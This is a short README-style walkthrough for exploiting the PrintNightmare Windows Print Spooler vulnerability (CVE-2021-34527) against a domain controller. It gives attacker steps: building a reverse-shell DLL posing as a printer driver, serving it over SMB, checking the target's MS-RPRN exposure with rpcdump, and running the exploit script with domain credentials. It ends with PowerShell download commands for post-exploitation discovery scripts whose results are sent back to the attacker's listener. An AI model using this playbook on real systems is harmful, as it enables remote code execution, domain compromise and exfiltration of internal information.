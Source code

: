 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

##Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443

   Steps to create a reverse shell dll: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
7. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

```powershell
<Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri path/to/export.bat -o export.bat>
```

